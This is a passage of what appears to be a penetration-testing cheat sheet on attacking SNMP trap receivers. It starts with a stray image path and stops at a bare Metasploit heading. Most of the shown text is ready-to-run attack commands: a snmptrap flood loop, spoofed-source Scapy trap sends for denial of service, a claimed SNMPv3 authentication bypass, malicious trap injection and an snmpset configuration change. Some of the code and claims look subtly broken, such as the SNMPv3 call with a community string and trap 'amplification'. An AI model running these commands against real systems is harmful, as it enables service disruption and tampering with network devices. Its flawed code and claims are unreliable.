     ```bash
    for i in {1..10000}; do
      snmptrap -v <snmp_version> -c public <NMS_IP> '' .1.3.6.1.4.1.8072.2.3.0.1
    done	
    ```
* **Description:** Overloading the NMS with a flood of traps, causing it to crash or become unresponsive.

#### SNMPS Amplification Attack

*   **Tool:** \[\[Scapy]]

    ```python
    send(IP(src="<spoofed_ip>", dst="<nms_ip>")/UDP(dport=162)/SNMPv2Trap(community='public', varbindlist=[SNMPvarbind(oid='1.3.6.1.4.1.2021.11.50.0', value=0)]))
    ```
* **Description:** Using SNMP traps to amplify traffic towards a target by spoofing the source IP address, leading to a denial-of-service condition.

### Exploits

#### SNMPv3 Authentication Bypass

*   **Tool:** \[\[Scapy]]

    ```python
    send(IP(dst="<nms_ip>")/UDP(dport=162)/SNMPv3(community='private', authKey='badkey', privKey='badkey', varbindlist=[SNMPvarbind(oid='1.3.6.1.4.1.2021.11.50.0', value='Bypass')]))
    ```
* **Description:** Exploiting weak or misconfigured authentication settings in SNMPv3 to bypass security controls.

#### SNMP Trap Injection

*   **Tool:** \[\[Scapy]]

    ```python
    send(IP(dst="<nms_ip>")/UDP(dport=162)/SNMPv2Trap(community='public', varbindlist=[SNMPvarbind(oid='1.3.6.1.4.1.2021.11.50.0', value='Malicious Data')]))
    ```
* **Description:** Crafting and injecting malicious SNMP traps to exploit vulnerabilities in the NMS or trigger unwanted actions.

#### SNMP Configuration Injection

* **Tool:** \[\[SNMPSet]]

```bash
    snmpset -v <snmp_version> -c <community_string> <target_ip> .1.3.6.1.2.1.1.6.0 s "Privileged Access"
```

\


*   **Tool:** \[\[Metasploit]]
